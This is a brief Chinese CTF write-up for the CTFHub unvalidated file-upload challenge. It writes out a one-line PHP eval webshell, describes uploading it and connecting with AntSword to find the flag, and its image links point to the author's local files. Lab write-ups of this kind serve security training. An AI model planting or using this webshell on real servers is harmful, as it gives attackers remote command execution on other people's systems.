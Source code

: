 # CTFHUB_upload无验证

## 题目内容

![image-20210824223555471](/home/adian/note/Study_Note/网络安全/CTF/pic/24.md)


## WriteUp

可以直接上传php webshell(<?php @eval($_POST['cmd']) ?>)

![image-20210824224925851](/home/adian/note/Study_Note/网络安全/CTF/pic/25.png)

使用AntSword连接即可,在网站目录下找到flag
